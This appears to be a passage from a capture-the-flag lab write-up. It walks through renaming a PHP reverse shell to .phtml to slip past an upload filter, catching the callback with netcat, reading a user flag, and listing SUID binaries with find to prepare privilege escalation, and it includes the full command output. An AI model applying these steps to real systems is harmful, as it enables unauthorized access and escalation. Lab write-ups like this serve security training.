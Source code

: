 - We change php reverse shell extension to `.phtml` and edit local IP and Port:

```
# nano php-reverse-shell.php

$ip = '10.8.54.26';  // CHANGE THIS
$port = 1101;       // CHANGE THIS

# mv php-reverse-shell.php php-reverse-shell.phtml
```

- Open a new tab in terminal and listen with: `nc -nvlp 1101`

- Upload the shell and success.

- Now, we need to run php file to get a reverse shell. Uploaded files are located in: `http://<ip>:3333/internal/uploads/`

- If we head into `http://10.10.81.45:3333/internal/uploads/php-reverse-shell.phtml`, our netcat should get a shell.

```
listening on [any] 1101 ...
connect to [10.8.54.26] from (UNKNOWN) [10.10.81.45] 35486
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:40:08 up  2:10,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls /home/
bill
$ cat /home/bill/user.txt
```

## Task 5 - Privelege Escalation

- In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file.

- The binary file to change your password has the SUID bit set on it (/usr/bin/passwd).

- To search for files that you have permissions and the file owned by root:

```
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
```